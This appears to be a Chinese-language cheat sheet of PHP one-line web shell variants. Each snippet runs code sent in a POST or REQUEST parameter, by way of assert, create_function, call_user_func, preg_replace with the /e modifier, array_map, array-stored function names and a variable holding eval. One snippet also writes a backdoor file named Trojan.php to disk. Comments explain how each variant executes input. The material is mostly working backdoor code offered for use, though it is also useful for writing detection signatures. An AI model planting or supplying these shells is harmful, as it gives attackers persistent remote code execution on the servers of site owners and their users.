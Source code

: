 

### 使用其他函数:

```php
<?php assert(@$_POST['a']); ?>
```

```php
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>
```

```php
<?php
@call_user_func(assert,$_POST['a']);
?>
//这里@call_user_func可以用来调用其他函数,第一个参数是它调用的函数,第二个函数是调用函数的参数
```

```php
<?php
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
//这个函数原本是利用正则表达式替换符合条件的字符串，但是这个函数有一个功能——可执行命令。
//这个函数的第一个参数是正则表达式，按照PHP的格式，表达式在两个“/”之间。如果我们在这个表达式的末尾加上“e”，那么这个函数的第二个参数就会被当作代码执行。
```

```php
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
//这里是生成一个文件,第二个参数是文件的内容
```

```php
<?php
$a='assert';
array_map("$a",$_REQUEST);
?>
//这里利用array_map()函数将执行语句进行拼接。最终实现的是assert($_REQUEST)
```

```php
<?php
$item['JON']='assert';
$array[]=$item;
$array[0]['JON']($_POST["TEST"]);
?>
```

```php
//变量函数
<?php
$a = "eval";
$a(@$_POST['a']);
?>
```
